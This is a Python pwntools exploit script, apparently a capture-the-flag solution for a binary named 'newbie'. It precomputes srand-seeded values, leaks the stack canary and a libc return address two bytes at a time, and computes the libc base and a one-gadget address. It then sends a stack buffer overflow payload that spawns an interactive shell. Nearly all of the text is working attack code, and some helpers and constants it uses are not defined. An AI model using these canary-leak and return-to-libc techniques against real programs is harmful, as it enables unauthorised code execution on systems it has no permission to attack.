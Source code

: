 ```py


# The function precompute will precompute every possible 2 bytes values that we read from /dev/urandom
def precompute():
    libc = ctypes.cdll.LoadLibrary("libc.so.6")
    global hashes
    # loop in all 2 bytes possibilities (0x0000, 0xffff), this will generate all possibilities generated by /dev/urandom
    for i in range(0xffff+1):
        libc.srand(i)
        val = ""
        for j in range(32):
            val += charset[libc.rand() % len(charset)]
        hashes[val] = i
    log.info(f"Computed {len(hashes)} hashes.")

def main():
    precompute()

    # Find themagicone gadget in the provided libc
    libc_path = "./libc-2.27.so"
    magic_offset = next(generate_one_gadget(libc_path))
    log.info(f"Found magic one gadget at offset: {hex(magic_offset)}")

    # Get the __libc_start_main offset
    libc_elf = ELF(libc_path)
    __libc_start_main_offset = libc_elf.libc_start_main_return
    log.info(f"__libc_start_main_offset {hex(__libc_start_main_offset)}")

    # start the program
    p = process("./newbie")

    # Leak the canary
    canary = 0
    for i in range(4): # Canary is 8 bytes, but we read only 2 of em each time, so we loop 4 time and do some bit shifting arithmetic
        canary += (leak(p, stack_canary_offset+i)) << (16 * i) # 16 * 4 = 64 bits (8 bytes).
    log.info(f"Leaked Canary {hex(canary)}")

    # leak the libc start main return value
    __libc_start_main = 0
    for i in range(4):
        __libc_start_main += (leak(p, stack___libc_start_main_offset + i)) << (16 * i) # 2 bytes at (stack__libc_start_main_offset + i)
    log.info(f"Leaked __libc_start_main: {hex(__libc_start_main)}")
    # Get the libc base offset
    libc_base = __libc_start_main - __libc_start_main_offset
    log.info(f"libc base address {hex(libc_base)}")
    # Calculate magic offset address using libc base
    magic = libc_base + magic_offset
    log.info(f"Magic one gadget address : {hex(magic)}")

    # Trigger Buffer Overflow
    p.recvuntil(b"> ")
    payload = b"A" * 88 + p64(canary) + p64(0x4242424242424242) + p64(magic)
    p.sendline(payload)
    # Quit to return
    p.recvuntil(b"> ")
    p.sendline(b"quit")
    log.success("Shell spawned! Enjoy !")

    p.interactive()
```